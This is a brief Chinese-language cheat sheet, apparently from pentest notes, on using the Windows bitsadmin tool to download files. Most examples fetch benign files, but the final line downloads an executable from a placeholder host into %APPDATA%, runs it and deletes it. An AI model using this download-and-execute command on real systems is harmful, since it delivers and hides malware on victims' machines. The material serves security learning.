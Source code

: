 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：

https://www.cnblogs.com/hookjoy/p/6550992.html

https://xz.aliyun.com/t/1654/



1.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```


2.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```


3. 带进度条

```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

4、多条命令
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```


bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe
